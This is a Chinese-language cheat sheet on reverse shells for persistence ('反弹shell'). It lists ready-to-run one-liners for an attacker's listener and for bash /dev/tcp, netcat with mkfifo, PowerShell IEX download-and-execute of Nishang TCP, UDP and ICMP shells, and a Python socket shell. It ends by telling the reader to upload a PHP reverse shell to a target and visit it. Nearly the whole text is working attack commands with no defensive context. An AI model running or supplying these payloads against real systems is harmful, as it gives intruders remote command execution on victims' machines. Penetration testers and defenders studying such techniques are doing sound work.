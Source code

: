 ```yaml
---
title: 【权限维持】反弹shell
---
```

## 反弹shell
## 攻击者VPS监听

```bash
nc -lvp 9999
```

## BASH

```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.1.1/9999 <&1'
```

## Netcat

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.1.1.1 9999 >/tmp/f	##非交互
```

## PowerShell

将ps1脚本先放到VPS上

```powershell
##TCP
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.1.1.1 -port 9999

##UDP
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellUdp.ps1');Invoke-PowerShellUdp -Reverse -IPAddress 10.1.1.1 -port 53

##ICMP
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellIcmp.ps1');Invoke-PowerShellIcmp -IPAddress 192.168.159.134
```

## Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.1.1.1",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP

https://github.com/pentestmonkey/php-reverse-shell

PHP 交互式反弹Shell，修改反弹IP后上传到目标访问一下即可。